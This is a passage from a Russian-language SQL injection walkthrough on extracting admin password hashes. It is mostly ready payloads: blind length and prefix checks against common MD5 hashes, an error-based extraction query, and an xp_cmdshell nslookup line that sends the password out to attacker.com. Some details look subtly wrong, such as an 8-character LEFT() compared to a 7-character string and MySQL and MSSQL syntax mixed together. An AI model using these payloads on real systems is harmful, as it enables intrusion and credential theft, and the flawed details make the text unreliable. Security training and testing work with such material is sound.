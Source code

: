 Дополнительно. **Определение реальной длины**:

На практике, перед извлечением данных мы сначала определяем длину:
``` sql
' AND (SELECT LENGTH(password) FROM admins LIMIT 1)=32--
```

###### **Шаг 4: Извлечение только критически важных данных (оставшееся время)**

```sql
-- Фокус на хешах паролей (первые несколько символов могут быть достаточны)
-- Если таблица небольшая - попытка извлечь все сразу через ошибку
-- Так проверяются первые 6-7 символов хеша
-- Используя словарь распространенных хешей
' AND (SELECT LEFT(password,8) FROM admins LIMIT 1)='5f4dcc3'--
' AND (SELECT 1 FROM admins WHERE username='admin' AND password LIKE '5f4dcc%')=1--
' AND (SELECT 1 FROM admins WHERE username='admin' AND password LIKE 'e10adc%')=1--
' AND (SELECT 1 FROM admins WHERE username='admin' AND password LIKE 'd8578e%')=1--

-- Извлечение только хешей (MD5, SHA1) которые можно brute-force'ить оффлайн
' AND (SELECT password FROM admins LIMIT 1) LIKE '[a-f0-9]%'--
```

**Логика LEFT():**
- Хеши паролей имеют предсказуемые паттерны
- **MD5:** 32 hex-символа, начинается с определенных значений
- **Пример:** `5f4dcc3` — начало MD5 хеша для пароля "password"
- Проверяем первые 8 символов вместо полного хеша

**Логика LIKE:**
- Вместо перебора всех символов проверяем распространенные хеши
- **Пример словаря:**
    - `5f4dcc3` (password), `e10adc3` (123456), `d8578ed` (password123)
- Если знаем, что используется MD5/SHA1 — проверяем только hex-символы \[a-f0-9]
- Резко сокращает пространство поиска

**Эффективность:**
- Вместо 95 возможных символов → только 16 hex-символов
- Вместо перебора 256 вариантов на символ → проверка 10-20 популярных хешей

**Логика проверки формата хеша:**
- Фильтруем по формату хеша (только hex-символы)
- Если условие истинно — это точно хеш, а не plaintext пароль
- Можно brute-force оффлайн




###### **Шаг 5: Агрессивная тактика для быстрого извлечения**

```sql
-- Использование ошибок для быстрого извлечения (если возможно)
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT password FROM admins LIMIT 1),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--

-- Out-of-band каналы (если доступны)
'; EXEC xp_cmdshell('nslookup '+(SELECT password FROM admins)+'.attacker.com')--
```
